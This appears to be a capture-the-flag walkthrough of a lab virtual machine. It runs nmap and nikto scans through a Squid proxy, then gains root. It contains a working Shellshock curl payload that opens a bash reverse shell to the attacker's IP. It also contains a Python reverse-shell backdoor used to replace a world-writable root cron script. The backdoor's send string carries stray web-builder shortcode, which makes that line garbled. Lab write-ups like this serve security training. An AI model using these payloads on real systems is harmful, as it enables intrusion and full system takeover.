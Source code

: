 # Finding the Box
```
nmap -sn 192.168.114.1-254
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-16 20:08 AEDT
Nmap scan report for 192.168.114.2
Host is up (0.00013s latency).
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.133
Host is up (-0.088s latency).
MAC Address: 00:0C:29:69:FD:DA (VMware)
Nmap scan report for 192.168.114.254
Host is up (-0.10s latency).
MAC Address: 00:50:56:E0:B0:AD (VMware)
Nmap scan report for 192.168.114.131
Host is up.
Nmap done: 254 IP addresses (4 hosts up) scanned in 4.68 seconds
```
# Port Enumeration
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-16 20:09 AEDT
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 69.20% done; ETC: 20:10 (0:00:05 remaining)
Nmap scan report for 192.168.114.133
Host is up (0.00086s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
3128/tcp open   http-proxy Squid http proxy 3.1.19
8080/tcp closed http-proxy
MAC Address: 00:0C:29:69:FD:DA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.87 seconds
```
# HTTP Enumeration
```
3128/tcp open   http-proxy Squid http proxy 3.1.19
```
From this we can see that a proxy is open
Trying to connect to http://192.168.114.133 we can see that it is stuck on connecting, so we can assume it is behind a proxy.

We configure the proxy using firefox
Settings>Advanced>Connection>Manual Proxy Connection

Using proxy ip 192.168.114.133 on port 3128
We try to connect again and we made connected through.

Using NIKTO making sure to use it through a proxy
```
nikto -h 192.168.114.133 -useproxy 192.168.114.133:3128
```
```
OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
```
Shellshock vulnerability is found, since it is a linux kernel it is incredibly easy to just pass through a reverse shell.


# Exploiting Vulnerability - Shellshock

Basic shellshock.
```
curl -H "User-Agent: () { :; } ; " website.com
```
Using curl and modifying this to include a reverse shell. Making sure to connect through the proxy
```
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.114.131/1234 0>&1" 192.168.114.133/cgi-bin/status --proxy 192.168.114.133:3128
```

# Privilege Escalation

Running a linux privilege checker script.

```
Scheduled cron jobs
    -rw-r--r-- 1 root root  722 Jun 20  2012 /etc/crontab
    /etc/cron.d:
    total 20
    drwxr-xr-x  2 root root 4096 Dec  5  2015 .
    drwxr-xr-x 90 root root 4096 Mar 16 14:35 ..
    -rw-r--r--  1 root root  102 Jun 20  2012 .placeholder
    -rw-r--r--  1 root root   52 Dec  5  2015 automate
    -rw-r--r--  1 root root  544 Jul  2  2015 php5
```

We find automate which gives us a clue.
```
cat automate
* * * * * root /usr/bin/python /var/www/connect.py
```
```
cat /var/www/connect.py
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```
According to this, it connects to things frequently, fortunately we have write access
```
ls -l /var/www/connect.py
-rwxrwxrwx 1 root root 109 Dec  5  2015 /var/www/connect.py
```
As cronjobs are usually run as root ,We can completely replace the file with an exploit named connect.py and hopefully create a shell with root.


# Exploit 

Using wget
```
wget 192.168.114.131/connect.py
```
We Replace the file with an exploit of our own 
From https://www.trustedsec.com/2011/06/creating-a-13-line-backdoor-worry-free-of-av/
```
#!/usr/bin/python
# imports here
import socket,subprocess
HOST = '192.168.114.131'    # The remote host
PORT = 1234            # The same port as used by the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# connect to attacker machine
s.connect((HOST, PORT))
# send we are connected
s.send('[fusion_builder_container hundred_percent="yes" overflow="visible"][fusion_builder_row][fusion_builder_column type="1_1" background_position="left top" background_color="" border_size="" border_color="" border_style="solid" spacing="yes" background_image="" background_repeat="no-repeat" padding="" margin_top="0px" margin_bottom="0px" class="" id="" animation_type="" animation_speed="0.3" animation_direction="left" hide_on_mobile="no" center_content="no" min_height="none"][*] Connection Established!')
# start loop
while 1:
     # recieve shell command
     data = s.recv(1024)
     # if its quit, then break out and close socket
     if data == "quit": break
     # do shell command
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     # read output
     stdout_value = proc.stdout.read() + proc.stderr.read()
     # send output to attacker
     s.send(stdout_value)
# close socket
s.close()

```
Wait and Root
```
id
uid=0(root) gid=0(root) groups=0(root)
```

